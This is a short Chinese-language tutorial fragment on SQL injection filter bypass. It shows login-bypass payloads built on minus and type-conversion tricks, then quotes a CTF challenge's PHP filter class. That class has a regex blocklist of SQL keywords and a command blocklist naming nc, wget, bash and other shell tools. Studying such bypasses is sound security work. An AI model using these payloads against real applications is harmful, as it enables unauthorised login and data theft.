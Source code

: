 绕过语句：'-'



```
select data from users where name=''-''
select data from users where name=0-0
select data from users where 0=0
```

比如登录的时候需要输入email和passwd，可以这样输入

```
email=''&amp;password=''
```

类型转换



```
' or 1=true
' or 1
select * from users where 'a'='b'='c'
select * from users where ('a'='b')='c'
select * from users where (false)='c'
select * from users where (0)='c'
select * from users where (0)=0
select * from users where true
select * from users
```

我们还有关于此的漏洞，就以一次CTF的题目来说(源码如下)：



```
&lt;?php
class fiter{
    var $str;
    var $order;
    function sql_clean($str){
        if(is_array($str)){
            echo "&lt;script&gt; alert('not array!!@_@');parent.location.href='index.php'; &lt;/script&gt;";exit;
        }
        $filter = "/ |*|#|,|union|like|regexp|for|and|or|file|--|||`|&amp;|".urldecode('%09')."|".urldecode("%0a")."|".urldecode("%0b")."|".urldecode('%0c')."|".urldecode('%0d')."/i";
        if(preg_match($filter,$str)){
            echo "&lt;script&gt; alert('illegal character!!@_@');parent.location.href='index.php'; &lt;/script&gt;";exit;
        }else if(strrpos($str,urldecode("%00"))){
            echo "&lt;script&gt; alert('illegal character!!@_@');parent.location.href='index.php'; &lt;/script&gt;";exit;
        }
        return $this-&gt;str=$str;
    }
    function ord_clean($ord){
        $filter = " |bash|perl|nc|java|php|&gt;|&gt;&gt;|wget|ftp|python|sh";
        if (preg_match("/".$filter."/i",$ord) == 1){
            return $this-&gt;order = "";
        }
        return $this-&gt;order = $ord;
    }
}
```

